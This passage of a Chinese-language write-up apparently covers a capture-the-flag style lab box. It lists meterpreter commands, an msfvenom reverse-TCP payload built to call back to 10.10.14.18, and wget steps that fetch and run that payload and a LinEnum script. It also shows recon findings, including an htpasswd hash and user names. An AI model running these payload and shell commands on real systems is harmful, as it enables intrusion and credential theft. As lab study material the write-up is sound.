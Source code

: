 ```
meterpreter执行的命令
ps
migrate 993
993    872    php-fpm7.1         x86_64  www-data         .
```

## 生成64位的payload
```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.10.14.18 LPORT=446 -f elf -o w64.elf

handler -H 10.10.14.18 -P 446 -p linux/x64/meterpreter/reverse_tcp

wget http://10.10.14.18/w64.elf -P /tmp
./w64.elf

use post/multi/recon/local_exploit_suggester
set SESSION 6
run
```
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/5.PNG)

## linuEnum.sh
wget http://10.10.14.18/l.sh -P /tmp
chmod加权限并运行

发现口令
```
/etc/.htpasswd
admin:$apr1$7hIqRwgr$.QPU0yknBQRTf3WW9jfFp.

存在的用户
centreon、shelby、sysmonitor

/home/sysmonitor/.sudo_as_admin_successful
说明普通用户sysmonitor用sudo可以得到最高权限
```
password1
## hash类型识别
MD5(APR)
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/6.PNG)

尝试爆破和搜索hash，无结果。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/7.PNG)

## html.zip
```
unzip html.zip
Archive:  html.zip
   creating: html/
 extracting: html/aa.php             
  inflating: html/index.html         
  inflating: html/panel.php          
   creating: html/monitoring/
  inflating: html/monitoring/index.html  
  inflating: html/monitoring/.htaccess 

cat .htaccess
AuthUserFile /etc/.htpasswd
AuthName "Protected area by the admin"
AuthType Basic
```